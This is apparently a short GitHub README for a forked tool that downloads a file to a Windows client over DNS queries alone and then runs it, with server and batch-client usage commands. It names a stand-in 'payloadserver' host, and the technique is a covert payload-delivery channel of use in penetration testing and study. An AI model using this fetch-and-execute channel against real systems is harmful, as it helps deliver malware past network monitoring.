 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserver_ _fileparts_ _publicdnsserver_**
Example: client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html
https://github.com/breenmachine/dnsftp

Forked and modified by:
Daniel Vinakovsky
